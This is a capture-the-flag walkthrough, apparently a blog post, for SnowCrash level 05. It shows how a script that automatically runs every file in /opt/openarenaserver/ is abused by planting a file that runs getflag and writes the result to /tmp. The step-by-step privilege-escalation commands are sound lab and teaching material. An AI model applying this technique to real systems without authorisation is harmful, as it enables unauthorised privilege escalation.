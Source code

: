 ```yaml
---
title: 42 SnowCrash Level05 - Walkthrough 👿
tags:
  - ctf
  - snowcrash
  - 42project
  - services
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:50:03
---
```


![snowcrash](/images/snowcrash.png)


### Introduction

In level 05, we need to exploit a script (`openarenaserver`) that executes all scripts found in a specific directory (`/opt/openarenaserver/`). By placing a script containing the `getflag` command in this directory, we can obtain the flag.

### Steps:

1. **Finding Relevant Files:**
   First, we search for files owned by the user `flag05` and his group:

   ```sh
   level05@SnowCrash:~$ find / -user flag05 -group flag05 2>/dev/null
   /usr/sbin/openarenaserver
   /rofs/usr/sbin/openarenaserver
   ```

2. **Analyzing the Script:**
    We examine the contents of the openarenaserver script:

    ```sh
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```
    The script iterates through all files in /opt/openarenaserver/, executes them with a time limit of 5 seconds, and then removes them.

3. **Exploiting the Script**:
    We create a script named xploit containing the getflag command in the /opt/openarenaserver/ directory:
    ```shell
    level05@SnowCrash:~$ echo "'getflag' > /tmp/xploit" > /opt/openarenaserver/xploit
    ```

4. **Monitoring the Result**:
    We watch the content of /tmp/xploit to capture the flag:
    ```shell
    level05@SnowCrash:~$ watch cat /tmp/xploit
    Every 2.0s: cat /tmp/xploit                                           Fri Oct 27 17:02:01 2023
    Check flag. Here is your token : ************************
    ```
    The flag is obtained by executing the getflag command within the openarenaserver script.

## Conclusion
By understanding the behavior of the openarenaserver script and exploiting its functionality to execute arbitrary commands placed in the /opt/openarenaserver/ directory, we successfully obtained the flag for level 05.
